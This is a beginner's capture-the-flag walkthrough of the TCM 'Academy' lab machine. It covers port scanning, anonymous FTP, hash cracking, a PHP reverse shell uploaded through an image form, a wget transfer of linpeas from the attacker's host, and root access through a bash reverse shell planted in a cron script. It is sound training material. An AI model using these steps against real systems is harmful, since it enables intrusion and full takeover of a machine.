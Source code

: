 #ACADEMY

It was gottem as I was studying the practical ethical hacking course on TCM ACADEMY. This writeup will be a walkthrough on it. I ran it on a virtual machine to get the IP of the machie.

Advice to beginners just like me, I won't advise you follow this walkthrough back to back as it will not really help you progress well in your journey. You can just come here to check when you get stuck and have tried all possible things you know before.

First we load our machine and get our IP address. For that we use the command <ip a> and we copy our IP address. That will be the target IP. 

![image](https://github.com/Bangis041/academy-/assets/74382096/9c438e88-5791-4089-83fe-921446e9cc60)

We start by scanning for ports to see which ports are opened and vulnerable. For this, I did a nmap scan with SYNTAX: <nmap -A -p- IP>

![image](https://github.com/Bangis041/academy-/assets/74382096/3d764b7f-820c-41d3-b1d1-34811b658b62)

From the scan above, we can see we had a number of opened ports. Port 21 looked interesting since it's the first and has a content we would like to view and also, anonymous FTP login allowed.

For us to check that out, we use <ftp IP> and then we are able to list what files are there.

![image](https://github.com/Bangis041/academy-/assets/74382096/d07f7c83-9256-4046-a6b6-6cf56a21cb1e)

Here we downloaded the note.txt file and saw some intersting information that might be helpful eventually.

After that, we check out the next port that might matter to us. SSH is not it so we move down to port 80 which is a webserver.

After loading the website, there was no much information. we only knew what technology was behind it.

![image](https://github.com/Bangis041/academy-/assets/74382096/53b38ac7-4519-4202-90c5-ca4b81d25de3)

Here we proceed to using a directory buster. I will be using gobuster in this case. SYNTAX: <gobuster dir -u http://IP -w wordlist_file/path>.

![image](https://github.com/Bangis041/academy-/assets/74382096/bdcf9185-6b31-4618-b9a2-1d6e827a3332)

Afer scanning we were able to get two directories. One interests me more and that is /academy. Why? I saw something that has to do with student in the note.txt file we saw from FTP. Now we search for http://IP/academy. After loading, we get to see a login page that requires us to use a REG NO and password. I did that using the information from the note.txt and i got an error

![image](https://github.com/Bangis041/academy-/assets/74382096/3282bcab-4f23-4414-895c-ded129a73056)

so i looked at the password again and realized it was not a password but a hash. Most students use weak passwords😂. I simply used https://crackstation.net to crack the password and it was "student" so i logged in and said to myself "I'm IN !!!" hehe.

![image](https://github.com/Bangis041/academy-/assets/74382096/64a793e0-cdc9-4e1b-8199-4617a0b93152)

After getting in, the only interesting thing here was that there was a place to upload images. Good news is that not only images an be uploaded there, .php files could also be uploaded. I used that to my advantage to get a reverse shell. I simply searched on google fpr php reverse shell. I copied the code into a file, activated a listener and uploaded the file and I WAS IN ONCE AGAIN😂. It was almost a dead end so i used an automation tool i learned about on https://tryhackme.com/r/room/linprivesc. Just search 'linpeas' on google. I found the script, 

![image](https://github.com/Bangis041/academy-/assets/74382096/2437bec1-dff5-49ae-9557-dd9d001422cb)

i copied and pasted in a .sh file i named linpeas. Now i have to transfer the file to the shell by hosting a webserver ad using wget. I used <wget http://MY_IP/file>

![image](https://github.com/Bangis041/academy-/assets/74382096/040247fa-141e-4d1f-ab19-828aaee7d1f8). 

Now is time to change the permission to make it executable and then run!!!. 

![image](https://github.com/Bangis041/academy-/assets/74382096/269bb845-d796-4154-81b7-ddd10c3906ee)

We were given what to look out for also...made work easier. While scrolling through, I was able to get this...* * * * * /home/grimmie/backup.sh and also this 👇

![image](https://github.com/Bangis041/academy-/assets/74382096/a4edae2d-e509-426d-990c-a40d80c03c68) and also a password that kept repeating itself in multiple instances. I think now is time i use port 22 which is SSH since we have confirmed that Grimmie is a user and we have a possible password. SYNTAX for SSH: <ssh user@IP> and guess what again guys...I'm in🥱. 

![image](https://github.com/Bangis041/academy-/assets/74382096/481ae434-82a8-40db-bdd9-f84eac966f9d)

Now it's looking like it's a dead end after trying sudo -l. I checked the content of backup.sh and realised it's supposed to run at some point. Crontabs did not work so i used ps aux to list processes and we can see it is running as root user. Maybe we are correct.

![image](https://github.com/Bangis041/academy-/assets/74382096/94de302c-2c28-410a-b51c-a7f04ad8f0ee). 

From here, we head over to google.com as it is out best friend to ask it asbout "bash reverse shell one liner" and we see a link on pentestmonkey. 

![image](https://github.com/Bangis041/academy-/assets/74382096/319e4683-a49a-43a1-82a7-01a53a3994f6)

We get a command to use to get a shell...Let's try it and see what comes.

![image](https://github.com/Bangis041/academy-/assets/74382096/17267a78-6af2-4561-85c6-37bd8fb39fd1).

For this to work, we have to set up a listener on our machine and specify the port we are listening on. For me it is 5678.

![image](https://github.com/Bangis041/academy-/assets/74382096/198043da-f221-4a9a-b9eb-19b27c9805e3).

We then wait for it to run, I waited for about 28seconds and I AM IN!!!!!

![image](https://github.com/Bangis041/academy-/assets/74382096/5203fc05-b3bb-44bf-8590-abcfcb7113e3)

Just find the flag and at it out. 

![image](https://github.com/Bangis041/academy-/assets/74382096/b87492b2-0a0e-47d5-b436-275268df8453)

There my friends was how I was able to pwn the ACADEMY machine.
